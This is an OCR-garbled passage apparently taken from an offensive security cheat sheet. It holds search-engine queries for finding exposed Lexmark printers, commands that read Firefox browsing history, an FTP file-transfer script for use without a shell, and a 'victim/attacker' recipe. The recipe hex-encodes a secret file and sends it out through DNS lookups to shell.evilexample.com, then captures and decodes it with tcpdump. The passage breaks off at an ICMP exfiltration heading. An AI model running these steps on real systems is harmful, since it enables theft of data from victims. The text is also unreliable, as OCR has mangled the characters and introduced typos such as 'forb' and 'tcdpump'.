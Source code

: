 | Lexmark printers             | "lexmark" "HTTP/1.1 200 OK" "Server: Lexmark"                                                                                                                                                                                                | "lexmark" and 443.https.get.headers.server: Lexmark                                                                                                                                                                |                                                                                                  | metadata.product:lexmark                                                                                                                                       | http.title:"Lexmark"                                                                                 | app:"Lexmark-HttpServer"                                                      | service:lexmark                                                               | title="Lexmark"                                                                                                                                                        | lexmark                                                                            | lexmark                                                                                                                                                              |


## Browser Cache

### Firefox

```
𝑐𝑑 /. 𝑚𝑜𝑧𝑖𝑙𝑙𝑎/𝑓𝑖𝑟𝑒𝑓𝑜𝑥/4𝑝𝑧𝑔𝑞𝑔𝑗4. 𝑑𝑒𝑓𝑎𝑢𝑙𝑡 − 𝑟𝑒𝑙𝑒𝑎𝑠e
𝑠𝑞𝑙𝑖𝑡𝑒3 𝑝𝑙𝑎𝑐𝑒𝑠. 𝑠𝑞𝑙𝑖𝑡𝑒
.𝑡𝑎𝑏𝑙𝑒𝑠
𝑠𝑒𝑙𝑒𝑐𝑡 𝑚𝑜𝑧_𝑝𝑙𝑎𝑐𝑒𝑠. 𝑢𝑟𝑙 𝑓𝑟𝑜𝑚 𝑚𝑜𝑧_𝑝𝑙𝑎𝑐𝑒𝑠;
. 𝑞𝑢𝑖
```

## File transfer

### Transfer by ftp without direct access to shell

```text
echo open ip 21 ftp.txt
echo user ftp.txt
echo pass ftp.txt
echo bin ftp.txt
echo GET file tp.txt
echo bye ftp.txt
ftp -s:ftp.txt
```

### Transfer Dns in Linux

```text
On victim:
1. Hex encode the file to be transferred
    xxd -p secret file.hex
2. Read in each line and do a DNS lookup
    forb in 'cat fole.hex'; do dig $b.shell.evilexample.com; done

Attacker:
1. Capture DNS exfil packets
    tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
2. Cut the exfilled hex from the DNS packet
    tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
    cut -f1 -d'.' | uniq received. txt
3. Reverse the hex encoding
    xxd -r -p received~.txt kefS.pgp
```

### Execute the exfil command and transfer its information with icmp
